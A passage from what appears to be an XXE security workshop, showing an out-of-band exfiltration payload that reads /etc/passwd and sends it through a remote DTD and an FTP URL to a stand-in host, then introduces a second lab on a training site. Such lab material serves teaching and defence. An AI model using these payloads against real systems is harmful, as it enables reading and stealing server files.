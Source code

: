 **payload sent**
```xml
<?xml version="1.0"?>
<!DOCTYPE data [ 
 <!ENTITY % file SYSTEM "file:///etc/passwd">
 <!ENTITY % dtd SYSTEM "http://your.host/remote.dtd"> 
%dtd;]>
<data>&send;</data>
```

**http://your.host/remote.dtd**
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://test:%file;@my.ftp.server/'>"> %all;
```

In order to capture the file content, you need to record the password sent to your FTP server. To serve this purpose, Ivan Novikov has created [a mock FTP server](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html) that respond just enough to record a password. (FTP clients will not authenticate if the handshake is incomplete.)










## LAB 2: Exfiltration with remote DTD
Duration: 00:15:00


For this second exercise, we are using a website that render SVG image based on the XML given. The service is at the URL : [http://xxe-workshop.gosec.co:8022](http://xxe-workshop.gosec.co:8022)


![Preview website](assets/exercise2/image4.png)
